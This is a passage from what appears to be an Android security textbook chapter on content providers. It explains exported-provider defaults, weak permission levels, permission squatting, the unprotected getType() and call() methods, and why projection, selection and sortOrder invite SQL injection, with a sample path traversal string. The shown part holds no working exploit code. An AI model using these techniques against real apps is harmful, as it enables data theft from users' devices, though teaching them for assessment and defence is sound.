








# 27 — Content Providers

> After this chapter you will be able to enumerate every content provider an application exposes,
> reason precisely about who can reach it and with what permission, and find, exploit and fix the five
> vulnerability classes that live behind `content://` URIs — SQL injection through three separate
> parameters, path traversal in `openFile`, unprotected data exposure, URI-permission laundering, and
> `call()` used as an unauthenticated RPC endpoint.

**Prerequisites:** [21-App-Sandbox](../21-App-Sandbox/README.md),
[23-Permissions](../23-Permissions/README.md), [24-IPC](../24-IPC/README.md),
[25-Binder](../25-Binder/README.md), [26-Intent](../26-Intent/README.md)
**Applies to:** Android 4.2–16 (API 17–36). The `android:exported` default change at `targetSdk 17`
and the Android 12 (API 31) explicit-`exported` requirement are called out where they matter.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### The problem that existed before content providers

Android gives every installed application its own Linux user ID and its own private directory under
`/data/data/<package>`. That directory is readable and writable by exactly one UID. This is the app
sandbox, and it is the foundation of Android's security model — see
[21-App-Sandbox](../21-App-Sandbox/README.md).

The sandbox creates an immediate practical problem. Your contacts live inside the Contacts app's
sandbox. Your photos live inside the media store's sandbox. If the sandbox were absolute, a messaging
app could never attach a photo, an email client could never autocomplete a recipient's address, and a
banking app could never let you pick a payee from your address book. Every useful phone is built on
apps *sharing structured data with each other*, and the sandbox forbids exactly that.

Three bad solutions present themselves, and Android rejected all three.

**Shared world-readable files.** Put the contacts database in a directory anyone can read. This is
what `MODE_WORLD_READABLE` did, and it is deprecated and throws `SecurityException` since API 24. It
is all-or-nothing: you cannot expose one table and hide another, you cannot expose one row and hide
another, and you cannot revoke access after granting it. It also hands the raw storage format to
every reader, freezing the schema forever.

**A network server on localhost.** Have the Contacts app listen on `127.0.0.1:9000`. This works
technically, and some apps really do this, but the loopback interface has no notion of caller
identity: any app on the device can connect, and the server cannot tell which one. It also burns
battery, survives poorly across process death, and creates a port that malware can scan for.

**Direct database handles.** Pass an open SQLite file descriptor over IPC. This gives the caller the
whole database, including the columns you wanted to hide, and lets it corrupt your file.

Android's answer is the **content provider**: a mediated, permission-checked, row-and-column-level
data interface that other applications reach through a URI, without ever seeing the storage behind it.

> **Definition**
> A **content provider** is a component of an Android application that exposes a set of data
> operations — query, insert, update, delete, type lookup, file opening, and a generic remote
> procedure call — to other applications, addressed by a `content://` URI, mediated by the framework,
> and enforced against the calling application's UID and permissions.

### The analogy

Think of a content provider as a **bank teller window**.

Behind the window sits the vault: the app's private SQLite database, its files, its in-memory
structures. You, the customer, never enter the vault. You slide a written request through the slot —
"show me the balance of account 4471" — and the teller decides whether you are entitled to it, fetches
exactly what you asked for and nothing more, and slides the answer back.

Everything interesting about content provider security comes from that image:

- If the bank forgets to check ID at the window, anyone can request anything. That is an **exported
  provider with no permission**.
- If the teller pastes your written note directly into a vault-retrieval command without reading it,
  you can write "…and also every other account" on the note. That is **SQL injection**.
- If the teller accepts "fetch me the document filed under `../../manager/passwords`", you get
  documents that were never meant for the window. That is **path traversal in `openFile`**.
- If the bank lets a trusted courier request documents on a customer's behalf, and the courier can be
  tricked into naming any document, the courier's trust becomes yours. That is **URI-permission
  laundering through intent redirection**.
- If there is a second, unlabelled slot at the window that runs arbitrary internal procedures, and
  nobody checks who uses it, that is `call()` **as an unprotected RPC entry point**.

### What would break without them

Without content providers, Android would need a bespoke, hand-written IPC service for every kind of
shared data, each with its own ad-hoc permission model. Instead, one uniform abstraction covers
contacts, calendar, SMS, call logs, media files, downloads, settings, user dictionary, and every
third-party app's shared data. `Settings.Global.getString()` is a content provider call. The Android
`DocumentsProvider` framework — the file picker you see when an app asks you to choose a document —
is content providers. The `FileProvider` that every modern app uses to share a file with the camera
or a mail client is a content provider.

> **Mental Model**
> A content provider is **a public API surface written in SQL-shaped verbs, reachable by any app on
> the device that satisfies its permission requirements, running inside the target app's process with
> the target app's UID and all its privileges**. Read that sentence again with the words "public API"
> emphasised. When you test a provider you are not testing a database — you are testing an unversioned,
> undocumented, frequently-unauthenticated remote API that the developer probably thought was
> internal.

### Why this chapter matters disproportionately to a tester

Exported content providers are consistently among the highest-yield findings in Android assessments,
for a structural reason: the developer writes the provider to serve *their own other component* — a
widget, a sync adapter, a second APK from the same company — and never mentally models a hostile
caller. The provider therefore does exactly what it is told. Meanwhile, before `targetSdkVersion 17`,
`android:exported` defaulted to **true**, so a whole generation of code exported providers by
accident, and that code is still copy-pasted today.

The five sections of [Security Perspective](#5-security-perspective) each present a vulnerable
implementation, an explanation of *why a reasonable developer wrote it that way*, a working exploit
with real commands, static and dynamic detection, a fixed implementation, and an honest severity
assessment.

---

## 2. High-Level Architecture

### The call path from a client app to a provider



Read that diagram slowly, because three separate things in it are commonly misunderstood.

**First: there are two Binder round trips, not one.** The client does not send its query straight to
the provider. It first asks `ActivityManagerService` (inside `system_server`) to *resolve the
authority* and hand back a Binder handle to the provider. `system_server` looks up the authority in
its provider map, checks whether the calling UID holds the provider's declared read or write
permission (or a matching URI grant), starts the target app's process if it is not already running,
and only then returns the handle. Every subsequent `query()` on that handle goes directly from client
process to provider process without touching `system_server` again.

That has a direct consequence you will exploit: **starting the target process is itself a side effect
you can trigger from outside.** Merely resolving a provider authority causes Android to fork and start
the owning application. An app with no exported activity, no exported service and no receiver can
still be forced to run by anyone who can name one of its provider authorities.

**Second: the permission check happens twice, in two different places, against two different
subjects.** `system_server` checks whether you may *obtain the provider at all*. Then, inside the
provider's own process, `ContentProvider.Transport` re-checks read or write permission per operation
before dispatching to your `query()` override. The second check is the one that honours per-path
`<path-permission>` entries and URI grants. A provider author who overrides `query()` and returns
data without calling the framework's helpers still gets the `Transport` check — but a provider author
who exposes data through `call()` gets **no automatic check at all**, which is the entire reason
`call()` is dangerous.

**Third: the result travels through shared memory, not through Binder.** A `Cursor` returned across
process boundaries is a `CursorWindow` backed by an anonymous shared-memory (ashmem) region. Binder
carries the file descriptor; the rows themselves are mapped into both processes. This is why a
provider can return a large result set without hitting Binder's roughly 1 MB transaction buffer limit,
and it is why a `Cursor` you forget to `close()` leaks an FD in both processes.

### Anatomy of a content URI



The authority is the only part the operating system understands. Everything to the right of it is an
opaque string that the provider parses however it likes — which is precisely why path traversal and
injection live there. A tester who only ever tries the paths they saw in the manifest is testing the
routes the developer documented, not the routes the code accepts.

### Where providers sit among the four component types



Content providers differ from the other three components in ways that matter operationally:

| Property | Activity / Service / Receiver | Content Provider |
|---|---|---|
| Addressed by | `Intent` (component name or intent filter) | `content://` authority |
| Discovery | `PackageManager.queryIntentActivities` etc. | `PackageManager.resolveContentProvider` / `getInstalledProviders` |
| Started by | An explicit start call | Any access to its authority |
| Lifecycle start | After `Application.onCreate()` | **Before** `Application.onCreate()` |
| Threading | Main thread callbacks | `query`/`insert`/etc. run on a **Binder thread pool thread** |
| Return value to caller | `setResult` / `onBind` / result data | A `Cursor`, `Uri`, `int`, `Bundle`, or `ParcelFileDescriptor` |
| Granular access control | Per-component permission | Per-provider, per-path, and per-URI grants |

> **Under the Hood**
> `ContentProvider.onCreate()` runs *before* `Application.onCreate()`. `ActivityThread.handleBindApplication()`
> instantiates the `Application` object, then calls `installContentProviders()`, and only afterwards
> calls `Application.onCreate()`. This ordering is why libraries like WorkManager and Firebase use a
> stub content provider as an "automatic initialiser" — declaring a provider is the only way to run
> code before the app's own `Application.onCreate()`. It is also a trap: if your provider's
> `onCreate()` depends on something your `Application.onCreate()` sets up, it will be null. And for a
> tester it means that touching a provider authority runs a meaningful amount of the target's
> initialisation code, including any initialisers piggybacking on other stub providers.

> **Warning**
> Because provider methods run on Binder thread-pool threads, **several calls can execute
> concurrently**. A provider that keeps mutable state in a field without synchronisation has a race
> condition reachable by any app that can call it. This is a real, if less common, vulnerability class:
> concurrent `insert` and `delete` against a provider that caches a row ID in an instance field can be
> made to act on the wrong row.

---

## 3. Deep Internal Working

### 3.1 Declaring a provider

A provider is declared in `AndroidManifest.xml` inside `<application>`:

```xml
<!-- AndroidManifest.xml -->
<provider
    android:name=".data.NotesProvider"
    android:authorities="com.example.notes.provider"
    android:exported="false"
    android:enabled="true"
    android:grantUriPermissions="false"
    android:readPermission="com.example.notes.permission.READ_NOTES"
    android:writePermission="com.example.notes.permission.WRITE_NOTES"
    android:multiprocess="false"
    android:initOrder="100"
    android:syncable="false"
    android:process=":data" />
```

Every attribute matters to a tester. Here is the complete table.

| Attribute | Type | Default | Meaning and security relevance |
|---|---|---|---|
| `android:name` | class | required | The `ContentProvider` subclass. A leading `.` means "relative to `package`". |
| `android:authorities` | string, `;`-separated | required | The routing key(s). Must be unique device-wide; a duplicate authority causes install failure. Multiple authorities may map to one class. |
| `android:exported` | boolean | see below | Whether apps with a different UID may reach it. **The single most important attribute in this chapter.** |
| `android:enabled` | boolean | `true` | If `false`, the provider cannot be instantiated. Can be toggled at runtime with `PackageManager.setComponentEnabledSetting`. |
| `android:permission` | permission name | none | Shorthand setting both read and write permission. Overridden by the more specific two. |
| `android:readPermission` | permission name | none | Required for `query()` and `openFile()` in read mode. |
| `android:writePermission` | permission name | none | Required for `insert()`, `update()`, `delete()`, and write-mode `openFile()`. |
| `android:grantUriPermissions` | boolean | `false` | If `true`, *any* URI under this provider may be temporarily granted. If `false`, only URIs matching a nested `<grant-uri-permission>` may be granted. |
| `android:multiprocess` | boolean | `false` | If `true`, an instance is created in **each** client process rather than one shared instance. Rarely used; changes your Frida attach target. |
| `android:initOrder` | integer | `0` | Higher initialises first within the same process. Relevant when reasoning about library auto-initialisers. |
| `android:process` | string | app's process | Runs the provider in a separate process. A `:`-prefixed name is private to the app. Changes which PID you attach to. |
| `android:syncable` | boolean | `false` | Legacy sync-adapter flag. Not a security control. |
| `android:directBootAware` | boolean | `false` | Whether the provider may run before the user unlocks the device (API 24+). A direct-boot-aware provider is reachable earlier in the boot cycle and must not touch credential-encrypted storage. |

### 3.2 The `android:exported` default — the most consequential default in Android

This is the historical detail that produced thousands of vulnerable apps, and it is asked in almost
every Android security interview.

| `targetSdkVersion` | Default for `android:exported` on a provider | Notes |
|---|---|---|
| ≤ 16 (Android 4.1 and earlier) | **`true`** | Any app on the device could reach the provider unless the developer explicitly set `exported="false"` or declared a permission. |
| ≥ 17 (Android 4.2, JELLY_BEAN_MR1) | **`false`** | The default flipped. Providers became private unless explicitly exported. |
| ≥ 31 (Android 12) | Still `false`, **but** if the component declares an `<intent-filter>`, `android:exported` must be stated explicitly or the app fails to install | Applies to activities, services and receivers. Providers rarely have intent filters, so the rule mostly does not bite here — but the install-time enforcement is a useful mental anchor for the era. |

> **Warning**
> Do not conclude "modern app, therefore not exported". Three things override the default:
> 1. The developer wrote `android:exported="true"` deliberately, usually because "it didn't work
>    otherwise" during development and they never came back.
> 2. A **library** the app depends on declares an exported provider, and manifest merging pulls it in.
>    The app's own manifest looks clean; the merged manifest does not. Always read the **merged**
>    manifest from the built APK, never the source `AndroidManifest.xml`.
> 3. The provider declares a permission whose `protectionLevel` is `normal`, which any app can hold
>    just by asking for it. Exported plus a `normal` permission is, for attack purposes, exported with
>    no permission at all.

The third point deserves a table, because it is where most junior testers stop too early.

| `protectionLevel` of the provider's permission | Who can hold it | Effective protection |
|---|---|---|
| `normal` | Any app that declares `<uses-permission>`; granted at install with no user prompt | **None.** Treat as unprotected. |
| `dangerous` | Any app, after a runtime prompt the user may accept | Weak. A convincing app gets it. |
| `signature` | Only apps signed with the same certificate | Strong, assuming the signing key is not shared. |
| `signatureOrSystem` / `signature|privileged` | Same-signature or privileged system apps | Strong on a stock device. |
| Undeclared permission name | Nobody, but see note | If the app references a permission it never `<permission>`-declares, and no other installed app declares it, the permission cannot be granted, so access is denied. But if a *different* app declares that permission name first, that app controls its protection level — the classic **permission squatting** issue. |

> **Pentester's Note**
> Permission squatting on custom permissions is worth checking on every engagement where the target
> is part of a suite of apps. If `com.example.suite.permission.READ_DATA` is declared by App B and
> used by App A, and App B is not installed, then whichever app is installed *first* and declares that
> permission name owns its definition. On older Android versions a malicious app could declare the
> permission with `protectionLevel="normal"`, install before the legitimate app, and thereby grant
> itself access. Android has hardened this over time (a `signature` permission cannot be redefined by
> a differently-signed app on modern releases), but the general principle — that a permission name is
> only as strong as the definition that wins — still holds, and mixed-version fleets still exist.

### 3.3 The provider contract: seven methods

Every `ContentProvider` subclass overrides some subset of these. This is the entire external API
surface.

| Method | Signature (abridged) | Purpose | Automatic permission check? |
|---|---|---|---|
| `onCreate()` | `boolean onCreate()` | Initialise. Runs on the **main thread** before `Application.onCreate()`. Must be fast. | n/a |
| `query()` | `Cursor query(Uri, String[] projection, String selection, String[] selectionArgs, String sortOrder)` | Read rows | Yes — read permission |
| `insert()` | `Uri insert(Uri, ContentValues)` | Add a row, return its URI | Yes — write permission |
| `update()` | `int update(Uri, ContentValues, String selection, String[] selectionArgs)` | Modify rows, return count | Yes — write permission |
| `delete()` | `int delete(Uri, String selection, String[] selectionArgs)` | Remove rows, return count | Yes — write permission |
| `getType()` | `String getType(Uri)` | Return the MIME type for a URI | **No** — deliberately unprotected, see below |
| `openFile()` | `ParcelFileDescriptor openFile(Uri, String mode)` | Return an open file descriptor | Yes — read or write depending on mode |
| `openAssetFile()` | `AssetFileDescriptor openAssetFile(Uri, String mode)` | Like `openFile` but supports a sub-range of a file | Yes |
| `call()` | `Bundle call(String method, String arg, Bundle extras)` | Generic RPC. No URI, no rows, no schema | **No** |

Two rows in that table are the source of a disproportionate share of findings.

**`getType()` is intentionally unprotected.** The framework must be able to ask "what kind of data is
at this URI?" to route intents, and asking that question would be impossible if it required
a permission. So `getType()` bypasses read/write permission checks entirely. A provider that computes
its MIME type by querying the database — a pattern that appears in real code — turns an unprotected
call into a database read. In modern Android there is a hardened variant, `getTypeAnonymous()`
(API 33+), that the platform prefers for untrusted callers precisely because this leak was recognised.

**`call()` has no automatic check at all.** The framework does not know what your method names mean,
so it cannot check anything. `Transport.call()` does perform provider-level (not URI-level) checks in
recent releases when a permission is declared, but historically and in the common "exported, no
permission declared" configuration, `call()` is a completely open RPC entry point into the target
app's process. Developers use it for exactly the things you would hope they did not: "getAuthToken",
"setDebugMode", "wipeAll", "execSql".

> **Definition**
> **`ContentProvider.call()`** is a general-purpose remote procedure call: the caller supplies a method
> name string, an argument string, and an arbitrary `Bundle`, and receives an arbitrary `Bundle` back.
> It has no schema, no type safety, no automatic authorisation and no discoverability. It is a
> developer's escape hatch from the SQL-shaped provider model, and it is the single most under-tested
> part of the Android component surface.

### 3.4 `ContentResolver` — the client side

Client applications never hold a reference to a `ContentProvider` object. They go through
`ContentResolver`, obtained from any `Context`:

```java
// Client app — the standard read
ContentResolver cr = getContentResolver();
Uri uri = Uri.parse("content://com.example.notes.provider/notes");
Cursor c = cr.query(uri,
        new String[] { "_id", "title", "body" },  // projection
        "title LIKE ?",                            // selection
        new String[] { "%secret%" },               // selectionArgs
        "created_at DESC");                        // sortOrder
try {
    while (c != null && c.moveToNext()) {
        Log.i("demo", c.getString(1));
    }
} finally {
    if (c != null) c.close();
}
```

The five query parameters map onto SQL almost literally, and this mapping is the reason SQL injection
in providers is so common:

| Parameter | Typical SQL destination | Bound safely by default? |
|---|---|---|
| `projection` | The `SELECT <...>` column list | **No.** There is no bind-parameter form for column names. |
| `selection` | The `WHERE <...>` clause | Only if the developer uses `?` placeholders and `selectionArgs`. |
| `selectionArgs` | Values bound to `?` placeholders | Yes — this is the safe channel. |
| `sortOrder` | The `ORDER BY <...>` clause | **No.** Same problem as projection. |
| `uri` path segments | Usually a `WHERE _id = ?` or a table name | Depends entirely on the provider's parsing. |

> **Pentester's Note**
> Almost every tutorial, checklist and automated scanner tests **selection** for SQL injection and
> stops. `projection` and `sortOrder` are injected into the statement as raw SQL text with no possible
> binding, and defensive developers who carefully used `selectionArgs` for the `WHERE` clause routinely
> concatenate the projection and sort order without a thought. Test all three, every time. Section
> [5.1](#51-sql-injection-through-selection-projection-and-sortorder) shows how each behaves
> differently and why the payloads are not interchangeable.

Other useful `ContentResolver` methods:

| Method | What it does | Tester relevance |
|---|---|---|
| `query(uri, proj, sel, args, sort, cancellationSignal)` | Cancellable query (API 16+) | Same attack surface |
| `query(uri, proj, Bundle queryArgs, cancellationSignal)` | Bundle-based args (API 26+) | `QUERY_ARG_SQL_SELECTION`, `QUERY_ARG_SQL_SORT_ORDER`, `QUERY_ARG_LIMIT`, `QUERY_ARG_OFFSET` — a *second* injection channel many providers forward blindly |
